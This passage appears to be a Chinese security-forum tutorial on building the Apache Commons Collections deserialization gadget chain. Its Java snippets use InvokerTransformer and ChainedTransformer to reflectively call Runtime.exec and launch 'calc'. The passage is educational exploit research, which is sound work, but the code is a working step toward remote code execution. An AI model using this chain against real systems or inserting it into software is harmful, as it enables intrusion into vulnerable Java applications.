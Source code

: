 ‍

先解决第一个问题 如何让`Runtime`对象可以序列化

‍

因为Class类是可以反序列化的，所以只要让`Runtime`为Class类并且调用其方法即可

![image](https://shs3.b.qianxin.com/attack_forum/2024/03/attach-5a3e876500dfbc08122d8874775fdccda22d6d08.png)

他是存在`getRuntime`的静态方法的，所以可以直接调用

```java
        //        Runtime.getRuntime().exec("calc");
        Class r =  Runtime.class;
        Method m = r.getMethod("getRuntime",null);
        Runtime o = (Runtime) m.invoke(null,null); // 注意这里是getRuntime()的无参构造
        Method m1 = r.getMethod("exec",String.class);
        m1.invoke(o,"calc");
```

那第一个问题就解决了，那么接下来就是通过`InvokerTransformer`的反射来吧这个反射重写一遍

```java
        Class r =  Runtime.class;
        Method m  = (Method) new InvokerTransformer("getMethod",new Class[]{String.class,Class[].class},new Object[]{"getRuntime",null}).transform(r);
        Runtime o = (Runtime) new InvokerTransformer("invoke",new Class[]{Object.class,Object[].class},new Object[]{null,null}).transform(m);
        new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"calc"}).transform(o);
```

这样就写好了，但是可以发现这里是前一个接收的对象作为后一个transform方法的输入

‍

所以作者又找到了一个类 `ChainedTransformer`

构造方法就是传一个`Transformer`类的数组

![image](https://shs3.b.qianxin.com/attack_forum/2024/03/attach-4121e8e5d3758ab0ef3f42ebce09294215f4cf73.png)

然后这个类的`transform`方法就会进行一个链式调用

![image](https://shs3.b.qianxin.com/attack_forum/2024/03/attach-54d5029668e3299e2fd74c3fb4749cd7a1dcec6b.png)

‍

那么我可以定义一个`Transformer`的数组然后将`InvokerTransformer`的发射链式调用写进去然后去触发其`transform`方法即可

```java
        Class r =  Runtime.class;
        Transformer[] transformers = new Transformer[]{
                new InvokerTransformer("getMethod",new Class[]{String.class,Class[].class},
                new Object[]{"getRuntime",null}),
                new InvokerTransformer("invoke",new Class[]{Object.class,Object[].class},new Object[]{null,null}),
                new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"calc"})} ;

        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);
        chainedTransformer.transform(r);
```

